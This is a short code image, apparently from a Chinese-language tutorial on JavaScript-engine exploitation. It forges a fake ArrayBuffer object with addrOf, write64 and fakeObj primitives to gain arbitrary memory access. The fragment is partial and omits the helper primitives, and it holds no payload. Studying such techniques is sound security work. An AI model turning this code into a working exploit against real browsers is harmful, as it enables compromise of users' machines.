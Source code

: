   
      
// 2. 获取其内存地址  
  
      
let  
a_addr =  
addrOf  
(a);  
  
  
      
// 3. 伪造一个JSArrayBuffer对象，并修改其元数据  
  
      
// (需要精确计算Map、backing_store等字段的偏移量)  
  
      
let  
fake_ab_addr = a_addr +  
0x40n  
;  
  
      
write64  
(fake_ab_addr +  
0x00n  
,  
addrOf  
(a) +  
0x0n  
);  
// 复制Map指针  
  
      
write64  
(fake_ab_addr +  
0x18n  
,  
0x4000000000n  
);  
// byte_length  
  
      
write64  
(fake_ab_addr +  
0x20n  
,  
0n  
);  
// backing_store  
  
    ...  
  
  
      
// 4. 将伪造的地址转换为JS对象  
  
      
let  
fake_ab =  
fakeObj  
(fake_ab_addr);  
  